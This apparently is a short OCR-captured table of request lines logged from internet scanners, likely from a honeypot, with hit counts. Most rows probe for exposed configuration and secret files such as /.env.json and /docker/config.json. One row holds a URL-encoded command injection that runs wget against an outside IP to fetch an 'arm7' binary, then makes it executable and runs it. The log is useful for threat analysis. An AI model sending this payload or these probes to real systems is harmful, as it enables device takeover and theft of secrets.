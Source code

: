 |  11 |                    12 | GET /config.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  12 |                    12 | \x05\x01\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  13 |                    11 | GET /.env.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
|  14 |                    10 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                 |
|  15 |                    10 | SSH-2.0-Go                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  16 |                    10 | \x03\x00\x00/*\xE0\x00\x00\x00\x00\x00Cookie: mstshash=Administr                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  17 |                     9 | GET /package.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  18 |                     9 | GET /docker/config.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  19 |                     9 | GET /api/config.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |